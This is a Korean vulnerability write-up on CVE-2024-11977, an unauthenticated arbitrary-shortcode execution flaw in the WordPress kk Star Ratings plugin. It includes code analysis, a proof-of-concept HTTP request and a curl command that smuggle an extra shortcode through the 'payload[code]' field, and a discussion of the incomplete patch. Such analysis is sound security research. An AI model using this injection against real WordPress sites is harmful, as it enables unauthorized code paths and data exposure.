 ```yaml
---
title: "[CVE-2024-11977] 취약점 분석 보고서"
description: "WordPress 플러그인 The The kk Star Ratings 버전 5.4.10 이하에서 발생하는 임의 단축 코드(do_shortcode) 실행 취약점"
author: dottak
date: 2024-12-31 14:58:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, CVE-2024-11977]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## 📌 Analysis

### 1. 개요

`CVE-2024-11977` 취약점은 WordPress 플러그인 `The The kk Star Ratings - Rate Post & Collect User Feedbacks`의 5.4.10 버전 이하에서 발생하는 임의 단축 코드(`do_shortcode`) 실행 취약점입니다.

해당 플러그인은 활성화되면 WordPress 게시글에 평점을 입력할 수 있는 요소가 나타납니다.

![image](/assets/posts/one-day/2024-12-31/image-001.png)

이때, 평점을 입력하면 서버로 전송되는 요청값이 적절한 검증 없이 `do_shortcode` 함수의 인자로 전달되어 임의의 단축 코드가 실행될 수 있습니다. 또한 인증되지 않은 사용자도 이 기능을 실행할 수 있어, 공격자가 WordPress의 단축 코드 기능을 악용하면 다음과 같은 보안 위험이 발생할 수 있습니다.

- **코드 실행 위험:** `do_shortcode`로 전달된 단축 코드가 처리될 때 PHP 함수가 실행 되며, 이때 악의적인 단축 코드를 삽입하여 임의의 PHP 코드를 실행할 수 있습니다.
- **정보 유출:** 단축 코드를 통해 데이터베이스 쿼리나 파일 시스템에 접근하여 중요한 정보를 탈취하거나 노출시킬 수 있습니다.
- **권한 우회:** 특정 단축 코드는 관리자 권한이 필요하지만, 검증되지 않은 단축 코드가 실행될 경우 일반 사용자가 관리자 권한이 필요한 단축 코드를 실행할 수 있습니다.
- **추가 공격 벡터**: XSS나 CSRF와 같은 다른 공격의 진입점으로 활용될 수 있습니다.
- **서비스 장애:** 무분별한 단축 코드 실행은 서버 리소스를 과도하게 소모하거나 무한 루프를 발생시켜 서비스 중단을 초래할 수 있습니다.

### 2. 취약점 분석

WordPress 플러그인 `The The kk Star Ratings - Rate Post & Collect User Feedbacks` 이 활성화된 상태에서 게시글의 평점을 클릭할 경우 아래의 HTTP Request 패킷이 발생하게 됩니다.

![image](/assets/posts/one-day/2024-12-31/image-002.png)

이때 Request Body 데이터 중 페이로드 `payload` 의 값은 다음과 같으며,

```php
[
    "align" => "left",
    "id" => 1,
    "slug" => "default", 
    "valign" => "top",
    "ignore" => "",
    "reference" => "auto",
    "class" => "",
    "count" => 4,
    "legendonly" => "",
    "readonly" => "",
    "score" => 4,
    "starsonly" => "",
    "best" => 5,
    "gap" => 5,
    "greet" => "Rate this post",
    "legend" => "4/5 - (4 votes)",
    "size" => 24,
    "title" => "Hello world!",
    "width" => 113.5,
    "_legend" => "{score}/{best} - ({count} {votes})",
    "font_factor" => 1.25
]
```

요청은 `/wp-content/plugins/kk-star-ratings/src/core/wp/actions/wp_ajax_kk-star-ratings.php` 파일의 `wp_ajax_kk_star_ratings` 함수에서 처리됩니다.

`wp_ajax_kk_star_ratings` 함수의 코드 구문을 살펴보면, **line 39**에서 변수 `$payload`에 요청 페이로드 `payload`의 값을 초기화합니다. 이후 **line 92**에서 이 값을 함수 `to_shortcode`의 두 번째 인자로 전달하고, 그 결과를 다시 `do_shortcode`의 인자로 전달한 뒤 해당 함수 `do_shortcode` 의 실행 결과를 HTTP 상태코드 `201`과 함께 응답합니다.

![image](/assets/posts/one-day/2024-12-31/image-003.png)

**line 92**의  `to_shortcode` 함수는 단축 코드를 생성하는 로직이 구현되어 있으며, 해당 함수는 `/wp-content/plugins/kk-star-ratings/src/functions/to_shortcode.php` 파일에 정의되어 있습니다.

![image](/assets/posts/one-day/2024-12-31/image-004.png)

해당 함수의 로직에 대한 출력 예제는 다음과 같습니다.

```php
<?php
// 1. 단순 숏코드 생성
echo to_shortcode('gallery', ['ids' => '1,2,3']);
// 결과: [gallery ids="1,2,3"]

// 2. 속성과 내용 포함
echo to_shortcode('div', ['id' => 'main', 'class' => 'container', 'data-role' => 'content'], 'Hello World');
// 결과: [div id="main" class="container" data-role="content"]Hello World[/div]

// 3. 속성이 없는 숏코드
echo to_shortcode('audio', [], '');
// 결과: [audio]
```

즉, 아까 확인한 HTTP Request Body 데이터의 페이로드 `payload` 의 값은 `to_shortcode` 함수로 전달될 경우 아래의 결과를 출력하게 됩니다. 

이때, `to_shortcode` 함수의 첫 번째 인자로 전달되는 `kksr('slug')`는 `kk-star-ratings`로 변환되었으며, 일부 존재하지 않거나 변경된 값들은 `wp_ajax_kk_star_ratings` 함수의 로직에 의해 처리된 것입니다.

```
[kk-star-ratings align="left" id="1" slug="default" valign="top" ignore="" reference="auto" class="" legendonly="" readonly="" starsonly="" best="5" gap="5" greet="Rate this post" legend="{score}/{best} - ({count} {votes})" size="24" title="Hello world!" width="113.5" _legend="{score}/{best} - ({count} {votes})" font_factor="1.25"]
```

따라서, 페이로드 `payload` 의 값은 `do_shortcode` 함수의 인자로 전달되므로 페이로드의 값을 조작하여 임의의 단축 코드를 실행할 수 있는 취약점이 발생하게 됩니다.

## 📌 PoC

### 1. 설명

평점을 기록할 때 발생하는 HTTP Request 패킷을 아래의 데이터로 요청합니다.

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost:8080
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 99

nonce=42d41f5dc3&action=kk-star-ratings&rating=5&payload[code]=][video+src=http://video.com+][video
```

![image](/assets/posts/one-day/2024-12-31/image-005.png)

이때, 요청 페이로드 `payload`는 다음과 같은 데이터로 전달됩니다.

```php
[ "code" => "][video src=http://video.com ][video" ]
```

전달된 `payload`는 `to_shortcode` 함수의 인자로 전달되어 다음과 같은 단축 코드로 변환됩니다.

```
[kk-star-ratings code="][video src=http://video.com ][video" id="0" slug="default" best="5" _legend="{score}/{best} - ({count} {votes})" legend="{score}/{best} - ({count} {votes})"]
```

이렇게 생성된 코드는 `[kk-start-ratings]`와 `[video]` 두 개의 단축 코드로 구성되며, 이는 `do_shortcode` 함수의 인자로 전달되어 아래의 응답 데이터를 생성합니다.

![image](/assets/posts/one-day/2024-12-31/image-006.png)

즉, 의도되지 않은 단축코드 `[video]` 가 실행 되어 `<a class="wp-embedded-video" href="http://video.com">http://video.com</a>` 가 반환된 것을 확인할 수 있습니다.

이러한 취약점을 통해 공격자는 WordPress의 모든 단축 코드를 실행할 수 있으며, 이는 WordPress 플러그인이나 테마에서 제공하는 단축 코드까지 포함됩니다. 특히 파일 업로드나 데이터베이스 조작과 관련된 단축 코드가 있다면 심각한 보안 위험이 발생할 수 있습니다.

### 2. PoC 코드

> 아래 요청 페이로드에서 사용되는 `nonce` 값은 평점 기록이 포함된 게시글 페이지에서 확인할 수 있습니다.
> 
> 
> ![image](/assets/posts/one-day/2024-12-31/image-007.png)
> 

```php
curl -X POST "http://localhost:8080/wp-admin/admin-ajax.php" \
	--data-urlencode "nonce=42d41f5dc3" \
	--data-urlencode "action=kk-star-ratings" \
	--data-urlencode "rating=5" \
	--data-urlencode "payload[code]=][video src=http://video.com ][video"
```

## 📌 패치 확인

해당 취약점의 패치는 요청 페이로드의 `payload`를 변수 `$payload`로 초기화한 후, `do_shortcode` 함수 호출 전에 `$payload['_legend']` 값이 있을 경우 `strip_shortcodes` 함수로 단축 코드를 제거하였습니다.

즉, `strip_shortcodes` 함수를 사용하여 요청 페이로드 `payload[_legend]`에서 단축 코드를 제거하도록 처리하였습니다.

> https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3208701%40kk-star-ratings&old=3202212%40kk-star-ratings&sfp_email=&sfph_mail=#file474
> 

![image](/assets/posts/one-day/2024-12-31/image-008.png)

다만, 해당 취약점의 패치는 요청 페이로드 `payload[_legend]` 에 대해서만 임의 단축코드 실행 취약점을 방지하고 있으며, 다른 페이로드 필드에 대해서는 여전히 취약점이 존재합니다.

예를 들어, `payload[code]`나 다른 필드를 통해 여전히 임의의 단축 코드를 실행할 수 있는 가능성이 있어 완전한 보안 패치라고 보기는 어렵습니다.